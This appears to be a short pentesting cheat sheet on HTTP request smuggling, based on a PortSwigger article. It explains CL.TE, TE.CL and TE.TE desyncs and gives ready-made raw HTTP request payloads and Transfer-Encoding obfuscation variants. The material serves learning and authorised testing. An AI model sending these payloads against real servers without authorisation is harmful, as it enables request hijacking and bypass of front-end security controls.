 > From the PortSwigger very good article:\
> https://portswigger.net/web-security/request-smuggling/finding

## What is smuggling

To know when the body of POST request ends, servers can use **Content-Length** and **Transfer-Encoding** headers.

- **Content-Length** specifies the length of the message body in bytes
- **Transfer-Encoding (chunked)** waits to meet a 0 in the body

:warning: **Smuggling requests may occur when frontend (proxy, firewall) and backend servers do not use the same delimiter method.**

:information_source: Use HTTP/1.1 to exploit, because HTTP/2 is not vulnerable.\
:information_source: However, it is still possible to exploit if the frontend supports HTTP/2 but not the backend!

## CL.TE vulnerabilities
- **Frontend** uses **Content-Length**
- **Backend** uses **Transfer-Encoding**

```
POST /robots.txt HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 49
Transfer-Encoding: chunked

e
q=smuggling&x=
0

GET /404 HTTP/1.1
Foo: x
```

The next request should answer with a 404.

## TE.CL vulnerabilities
- **Frontend** uses **Transfer-Encoding**
- **Backend** uses **Content-Length**

:information_source: Deactivate *Update Content-Length* in Burp

```
POST /search HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked

7c
GET /404 HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 144

x=
0
```

The next request should answer with a 404.

## TE.TE vulnerabilities
- Both use **Transfer-Encoding** but one of the servers can be induced not to process it by obfuscating the header in some way.

Ways to obfuscate the header:

```
Transfer-Encoding: xchunked

Transfer-Encoding : chunked

Transfer-Encoding: chunked
Transfer-Encoding: x

Transfer-Encoding:[tab]chunked

[space]Transfer-Encoding: chunked

X: X[\n]Transfer-Encoding: chunked

Transfer-Encoding
: chunked
```
